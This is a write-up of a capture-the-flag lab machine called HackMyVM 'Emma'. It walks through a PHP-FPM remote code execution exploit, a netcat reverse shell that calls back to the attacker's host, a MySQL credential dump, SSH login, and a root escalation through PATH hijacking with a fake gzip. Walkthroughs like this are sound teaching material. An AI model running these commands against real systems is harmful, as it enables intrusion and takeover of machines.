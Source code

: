 ```yaml
---
layout: post
title:  "HackMyVM - Emma"
date:   2021-03-07 10:10:05 +0300
categories: [hackmyvm,walkthrough]
pin: false
tags: [gzexe,golang,sql,phuip-fpizdam]
---
```

- You’ll find this vm in HackMyVM `https://hackmyvm.eu/machines/machine.php?vm=Emma`

- Difficulty : Hard

## Directory scan
{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ dirb http://10.0.2.171
  ---- Scanning URL: http://10.0.2.171/ ----
  + http://10.0.2.171/index.php (CODE:200|SIZE:0)                                                                  
  + http://10.0.2.171/phpinfo.php (CODE:200|SIZE:58765)                                                            
  + http://10.0.2.171/robots.txt (CODE:200|SIZE:15)  
{% endhighlight %}


## Robots.txt

```
┌──(alienum㉿kali)-[~]
└─$ curl http://10.0.2.171/robots.txt                                               
itwasonlyakiss
```

## Set up golang

- sudo apt-get install golang
- go get github.com/neex/phuip-fpizdam
- export PATH=$PATH:$(go env GOPATH)/bin

## Run the script

{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ phuip-fpizdam http://10.0.2.171/index.php
  2021/02/07 13:48:59 Base status code is 200
  2021/02/07 13:48:59 Status code 502 for qsl=1770, adding as a candidate
  2021/02/07 13:48:59 The target is probably vulnerable. Possible QSLs: [1760 1765 1770]
  2021/02/07 13:48:59 Attack params found: --qsl 1760 --pisos 42 --skip-detect
  2021/02/07 13:48:59 Trying to set "session.auto_start=0"...
  2021/02/07 13:48:59 Detect() returned attack params: --qsl 1760 --pisos 42 --skip-detect <-- REMEMBER THIS
  2021/02/07 13:48:59 Performing attack using php.ini settings...
  2021/02/07 13:48:59 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
  2021/02/07 13:48:59 Trying to cleanup /tmp/a...
  2021/02/07 13:48:59 Done!
{% endhighlight %}

## Reverse shell

- curl

```sh
┌──(alienum㉿kali)-[~]
└─$ curl http://10.0.2.171/index.php?a=/bin/sh+-c+'id;nc -e /bin/sh 10.0.2.15 4444'&
```

- listener

```sh
┌──(alienum㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from 10.0.2.171 [10.0.2.171] 43972
/usr/bin/script -qc /bin/bash /dev/null
www-data@emma:~/html$
```

## Found emma's ssh credentials

- cat /etc/passwd

```sh
www-data@emma:~$ cat /etc/passwd
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
```
- The database maybe contains important data

- MySQL root login

```sh
www-data@emma:~$ mysql -u root -pitwasonlyakiss
MariaDB [(none)]> show schemas;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| users              |
+--------------------+
MariaDB [(none)]> use users;
MariaDB [users]> show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| users           |
+-----------------+
MariaDB [users]> select * from users;
+----+------+----------------------------------+
| id | user | pass                             |
+----+------+----------------------------------+
|  1 | emma | 5f****************************** |
+----+------+----------------------------------+
1 row in set (0.000 sec)
```

## Emma ssh login

```#!/bin/sh
┌──(alienum㉿kali)-[~]
└─$ ssh emma@10.0.2.171        
emma@10.0.2.171's password: 5f******************************

```

## Privileges Escalation

```#!/bin/sh
emma@emma:~$ sudo -l
Matching Defaults entries for emma on emma:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User emma may run the following commands on emma:
    (ALL : ALL) NOPASSWD: /usr/bin/gzexe
emma@emma:~$ ls
flag.sh  user.txt  who  who.c
emma@emma:~$ ./who
Im
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(emma)
But now Im
uid=1000(emma) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(emma)
emma@emma:~$ stat who
  File: who
  Size: 16760           Blocks: 40         IO Block: 4096   regular file
Device: 801h/2049d      Inode: 146490      Links: 1
Access: (6750/-rwsr-s---)  Uid: (    0/    root)   Gid: ( 1000/    emma)
```

```#!/bin/sh

emma@emma:~$ cat who.c
#include <stdio.h>
#include <stdlib.h>
void main(){
setuid(0);
setgid(0);
printf("Im \n");
system("/bin/id");
setuid(1000);
setgid(1000);
printf("But now Im \n");
system("/bin/id");
}

emma@emma:~$ sudo -u root /usr/bin/gzexe /bin/id
/bin/id:         59.2%
emma@emma:~$ cd /tmp
emma@emma:/tmp$ echo "nc -e /bin/sh 10.0.2.15 4444" > gzip
emma@emma:/tmp$ chmod +x gzip
emma@emma:/tmp$ export PATH=/tmp:$PATH
emma@emma:/tmp$ cd
emma@emma:~$ ./who
Im
(UNKNOWN) [10.0.2.15] 4444 (?) : Connection refused
Cannot decompress /usr/bin/id
```

- listener

```#!/bin/sh
┌──(alienum㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from 10.0.2.171 [10.0.2.171] 43986
id
whoami
root
ls
flag.sh
user.txt
who
who.c
cd /root
ls
flag.sh
root.txt
```
